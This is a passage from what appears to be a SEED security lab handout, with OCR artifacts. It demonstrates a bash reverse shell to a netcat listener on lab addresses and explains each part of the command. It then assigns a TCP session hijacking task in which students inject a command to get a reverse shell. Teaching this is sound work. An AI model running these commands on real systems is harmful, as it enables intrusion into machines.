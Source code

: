```
+---------------------------------------------------+
| On 10.9.0.1 (attcker) |
| |
| $ nc -lnv 9090 |
| Listening on 0.0.0.0 9090 |
| Connection received on 10.9.0.5 49382 |
| $ <--+ This shell runs on 10.9.0.5 |
| |
+---------------------------------------------------+

+---------------------------------------------------+
| **On 10.9.0.5 (victim)** |
| |
|$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 |
| |
+---------------------------------------------------+
```

We provide a brief description on the reverse shell command in the following. Detailed explanation can
be found in the SEED book.

- "/bin/bash -i":istands for interactive, meaning that the shell must be interactive (must provide
    a shell prompt)
- "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to 10.9.0.1’s port 9090. The outputstdoutis represented by file descriptor
    number 1.
- "0<&1": File descriptor 0 represents the standard input (stdin). This causes thestdinfor the
    shell to be obtained from the tcp connection.
- "2>&1": File descriptor 2 represents standard errorstderr. This causes the error output to be
    redirected to the tcp connection.

In summary,`"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1"`starts a `bash` shell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same
tcp connection.
In the demo shown above, when thebashshell command is executed on10.9.0.5, it connects back
to thenetcatprocess started on10.9.0.1. This is confirmed via the"Connection received on
10.9.0.5"message displayed bynetcat.


The description above shows how you can set up a reverse shell if you have the access to the target
machine, which is thetelnetserver in our setup, but in this task, you do not have such an access. Your
task is to launch an TCP session hijacking attack on an existingtelnetsession between a user and the
target server. You need to inject your malicious command into the hijacked session, so you can get a reverse
shell on the target server.

## 7 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.
